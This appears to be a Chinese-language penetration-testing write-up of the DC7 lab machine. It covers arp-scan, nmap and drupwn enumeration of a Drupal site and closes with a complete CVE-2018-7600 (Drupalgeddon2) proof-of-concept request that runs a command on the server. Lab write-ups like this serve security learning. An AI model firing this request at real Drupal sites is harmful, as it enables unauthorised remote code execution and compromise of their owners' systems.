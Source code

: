 ```yaml
---
title: DC7
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-19T23:02:04+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
==> 192.168.121.151
```

先用nmap扫描端口

```
nmap -A 192.168.121.151 -T4 -p- 
```

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\nmap.png)

能看到端口信息和一些基本目录，访问80端口页面，能看到该网站是基于Drupal搭建的，用dirsearch跑一下目录，和nmap跑出来的效果差不多robots.txt中能看到基本的目录信息

![robots](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\robots.png)

利用网上搜索到的针对性cms工具drupwn进行深度扫描

利用drupwn来枚举站点内容

```
python3 drupwn --mode enum --target http://192.168.121.151
```

![--enum](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\--enum.png)

能看到有两个用户，以及版本为8.x,使用爆破模式看能否检测到漏洞![exploit](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\exploit.png)

能看到有两条cve是可能有用的

![exp2](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\exp2.png)

第一条CVE报错，第二条CVE没有提示信息，我们可以测试第二条CVE-2018-7600，poc如下

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.121.151
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
